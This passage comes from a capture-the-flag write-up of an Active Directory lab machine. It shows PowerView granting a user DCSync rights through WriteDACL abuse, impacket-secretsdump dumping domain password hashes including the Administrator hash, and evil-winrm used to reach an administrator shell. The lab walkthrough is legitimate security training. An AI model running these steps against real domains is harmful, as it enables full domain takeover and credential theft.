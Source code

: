 We can see that the `tester` user is now a member of `Exchange Windows Permissions` groups.

On the graph when we click on writeDACL it shows us how we can abuse it.
According to the bloodhound, first we need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS. Since we are not running a process as a member we need to create a PSCredential object and the use `Pwerview's Add-ObjectACL` to grant tester user Dcsync rights.

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\PowerView.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'test@123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = New-Object System.Management.Automation.PSCredential('htb.local\tester', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity tester -Credential $cred -Rights DCSync
```

Now we can either use mimikatz or impacket-secretsdump to get the administrator hash.

```bash

impacket-secretsdump htb.local/tester@10.10.10.161 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

```

Now, we can get administrator shell using the hash with evil-winrm.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir

    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         7/5/2025   5:32 PM             34 root.txt

```